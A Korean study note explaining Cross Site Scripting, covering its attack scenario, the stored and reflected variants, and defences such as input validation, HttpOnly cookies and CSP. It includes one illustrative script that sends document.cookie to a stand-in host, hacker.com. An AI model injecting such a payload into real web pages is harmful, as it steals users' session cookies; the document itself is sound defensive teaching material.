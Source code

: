 # XSS(Cross Site Scripting)

> `Cross Site Scripting`의 약자로 관리자가 아닌 사람이 악성 스크립트 코드를 삽입해 치명적인 오류를 발생시키거나 쿠키등을 탈취하는 공격이다.

- 다른 웹사이트와 정보를 교환하는 식으로 작동하므로 사이트간 스크립팅 이라고 부른다.

## XSS의 공격의 시나리오

1. 해커가 사전에 만든 웹페이지에 사용자가 브라우저로 액세스를 시도한다.
2. XSS공격 `link`가 포함된 웹페이지가 브라우저에 표시
3. 사용자가 `link`를 클릭
4. 사용자가 느끼지 못하는 사이 취약한 사이트에 있는 해커의 스크립트에 액세스 됨
5. 사용자의 웹 브라우저 상에서 해커의 스크립트가 실행된다.

```html
<script>
  let xmlHttp = new XMLHttpRequest();
  const url = "http://hacker.com" + document.cookie;
  xmlHttp.open();
  xmlHttp.send();
</script>
```

---

## XSS의 종류

- Stored-XSS
- Refleceted-XSS

## Stored-XSS(Persistent XSS)

> Stored XSS는 악성 스크립트가 취약한 웹사이트의 데이터베이스에 영구적으로 저장되는 유형이다.

- 사용자가 게시판이나 댓글 등에 입력한 데이터가 검증 없이 저장되고
- 이후 다른 사용자가 그 페이지를 방문할 때마다 해당 스크립트가 실행되는 것이다.  
*`Persisent` : 지속성있는

### 시나리오(Stored XSS)

- 공격자가 게시판에 악성 스크립트를 포함한 댓글을 작성
- 댓글을 읽는 모든 사용자의 브라우저에서 악성스크립트가 실행 
- 사용자가 원치 않는 행위 발생 

> 공격 범위가 넓고, 한번 공격이 이루어지면 많은 사용자에게 영향을 준다.
  
---
  
## Reflected XSS(Non-Persistent XSS)

> `Reflected XSS`는 사용자의 요청과 함께 악성 스크립트가 웹 서버로 전송되는 공격이다.

- 서버는 이 스크립트를 포함한 응답을 사용자에게 보낸다.
- 공격자는 이러한 스크립트가 포함된 URL을 희생자에게 보내는 방식으로 공격을 수행한다.

### 시나리오(Reflected XSS)

- 공격자는 악성스크립트가 포함된 URL을 희생자에게 보낸다.
- 희생자가 이 URL을 클릭한다.
- 웹 서버는 악성 스크립트를 포함한 응답을 보낸다.
- 희생자의 브라우저는 이 스크립트를 실행한다.

### 차이점

- `Stored XSS`는 웹사이트의 데이터베이스에 악성스크립트가 저장되어, 웹사이트 사용자가 특정 페이지를 로드할 때마다 스크립트가 실행되는 반면
- `Reflecetd XSS`는 사용자가 특정 `URL`을 로드할때마다 스크립트가 실행되는 구조이다.

### 예방 

- 입력값 검증
- `HTTPONly` 쿠키사용 : 이 옵션을 사용하면 스크립트를 통해 쿠키에 접근하는 것을 방지하여, 사용자 세션을 탈취하는 공격을 예방할 수 있습니다.
- `CSP(Content Security Policy)` : `CSP` 헤더를 사용하면 브라우저가 특정 출처에서만 스크립트를 로드하도록 할 수 있습니다. 이를 통해 악의적인 스크립트의 로드를 방지할 수 있습니다.

